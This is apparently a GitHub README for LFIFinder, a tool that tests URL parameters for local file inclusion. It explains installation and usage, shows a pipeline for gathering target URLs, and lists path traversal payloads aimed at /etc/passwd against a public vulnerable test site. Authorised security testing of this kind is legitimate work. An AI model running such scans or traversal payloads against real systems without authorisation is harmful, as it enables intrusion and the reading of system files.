 # LFIFinder

A Light Weight Tool for checking Local File Inclusion (LFI) vulnerabilities by replacing lfi payloads in the parameters values and checking 'root:' in the response.

## Installation
```
git clone https://github.com/rix4uni/LFIFinder.git
cd LFIFinder
#pip3 install -r requirements.txt
```

## Example usages

Note: must use `uro`

Single URL:
```
echo "http://testphp.vulnweb.com/showimage.php?file=./pictures/1.jpg" | python3 lfifinder.py
```

Multiple URLs:
```
cat lfi-urls.txt | python3 lfifinder.py
```

## Chaining With Other Tools
```
echo "http://testphp.vulnweb.com" | waybackurls | gf lfi | uro | anew | python3 lfifinder.py --threads 50
echo "http://testphp.vulnweb.com" | waybackurls | gf lfi | uro | anew lfi-urls.txt # use this output in Multiple URLs
```
## To get best results
```
open lfi_payloads.txt add your favraioute payloads
```

## How It Works
```
For Example Url is:- 
http://testphp.vulnweb.com/showimage.php?file=first&cat=second

It will check all lfipayloads one by one:-
NOT VULNERABLE: http://testphp.vulnweb.com/showimage.php?file=../../etc/passwd&cat=../../etc/passwd
VULNERABLE: http://testphp.vulnweb.com/showimage.php?file=../../../etc/passwd&cat=../../../etc/passwd
NOT VULNERABLE: http://testphp.vulnweb.com/showimage.php?file=../../../../../../../etc/passwd&cat=../../../../../../../etc/passwd
```

